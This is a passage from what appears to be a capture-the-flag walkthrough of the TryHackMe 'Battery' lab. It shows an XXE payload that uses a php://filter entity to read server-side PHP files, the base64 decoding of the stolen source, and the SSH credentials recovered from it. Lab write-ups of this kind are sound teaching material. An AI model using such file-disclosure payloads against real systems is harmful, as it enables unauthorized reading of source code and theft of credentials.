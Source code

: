 <p align="center"><img src="./files/admin64.png"></p>

Let's see the comment now:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ echo "PGh0bWw+Cjx0aXRs [REDACTED] p9Cn0KCgo/Pgo=" | base64 -d > admin.php

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ tail admin.php -n7
//A note from Admin of Bank Of CC : I have saved my credentials in a file , let's see if you can find it ;)

[REDACTED]
~~~

I decided to check the other files and found the creds in `acc.php`. Here's the payload to get the base64 encoded file:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
   <!ELEMENT lol ANY >
   <!ENTITY haha SYSTEM  "php://filter/convert.base64-encode/resource=/var/www/html/acc.php" >]>
<root><name>sth</name><search>&haha;</search></root>
~~~

Here's the creds for SSH:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ echo "PCFET0NUWVBFIGh0b [REDACTED] bCIpOwp9Cj8+Cg==" | base64 -d > acc.php
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ grep "//" acc.php
//MY CREDS :- cyber:super#secure&password!
~~~
